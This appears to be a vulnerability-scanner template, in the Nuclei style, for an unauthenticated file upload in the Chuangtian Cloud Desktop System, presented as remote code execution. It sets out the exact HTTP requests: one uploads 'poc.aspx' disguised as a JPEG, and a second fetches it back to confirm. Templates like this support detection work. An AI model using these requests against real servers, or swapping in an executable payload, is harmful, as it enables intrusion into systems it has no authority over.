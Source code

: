 ## Requests

### Step - 1

```
POST /upload/UploadResourcePic.ashx?ResourceID=8382 HTTP/1.1
Host: {{Hostname}}
Content-Disposition: form-data;name="file1";filename="poc.aspx";
Content-Type: multipart/form-data; boundary=---------------------------20873900192357278038549710136

-----------------------------20873900192357278038549710136
Content-Disposition: form-data; name="file1"; filename="poc.aspx"
Content-Type: image/jpeg

{{randstr}}
-----------------------------20873900192357278038549710136--

```

### Step - 2

```
GET /ResourcePic/{{endpoint}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, '{{randstr}}') && status_code_2 == 200

### Extractors

**Type - regex**

- name - endpoint
- internal - True
- part - body
- regex
  1. (.\*?.ASPX)

---

# Core Chuangtian Cloud Desktop System - Remote Code Execution

## Description
